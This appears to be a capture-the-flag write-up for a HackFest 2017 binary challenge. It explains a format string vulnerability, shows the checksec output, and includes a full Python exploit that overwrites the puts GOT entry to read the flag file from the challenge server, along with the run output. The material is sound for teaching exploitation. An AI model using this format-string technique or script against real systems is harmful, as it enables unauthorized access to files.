 ```yaml
---
layout: post
title: Pwn 10
category: HackFest Qual 2017
---
```


It's a format string vulnerability in do_net function, 

the binary was nx but we couln't leak libc

```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

After digging in the binary we found the ssend_file function, which take a file name  as variable and send its content through the sock fd

So Best option was to overwrite puts GOT table 

```puts(&buf) -> ssendfile(&buf) -> ssend_file(flag.txt)```

Not so hard, thanks to Hackfest organizers

```
#hamdi
#!/usr/bin/env python
from struct import pack
from socket import *
import time

def p(data):
	return pack("<I",data)

puts = 0x0804A2B0
read_flag = 0x0804891C

s = socket(AF_INET, SOCK_STREAM)
s.connect(('challenge.hackfest.tn', 5002))

lsb = read_flag & 0xffff
msb = read_flag >> 16

fmt = p(puts) 
fmt +=p(puts+2)
fmt +="%"+str(lsb-0x10)+"d%9$n"
fmt += "%"+str(msb-lsb+0x250)+"d%10$n"
print s.recv(20148)
s.send("1\n")
print s.recv(1024)
s.send(fmt)
print s.recv(2014)
s.send("1.1.1.1:2222\n")
print s.recv(1024)
s.send("1\n")
print s.recv(1024)
s.send("flag.txtt\x00")
print s.recv(1024)
s.send("1.1.1.1:2222\n")
print s.recv(1024)
print s.recv(2048)

```
Run exploit on remote 

```
#./fmt.py
Select an option:
1. Query Gopher Server
2. Quit

Enter the path of the resource to request

Enter the destination Gopher IP and Gopher Port (Format: <gopher_ip>:<gopher_port>)

Successfully requested gopher server
Select an option:
1. Query Gopher Server
2. Quit

Enter the path of the resource to request

Enter the destination Gopher IP and Gopher Port (Format: <gopher_ip>:<gopher_port>)

hackfest{w4s_%n_us3d_f0r_@nyth1n9_b3side5_th1$}
Successfully requested gopher server
Select an option:
1. Query Gopher Server
2. Quit
```
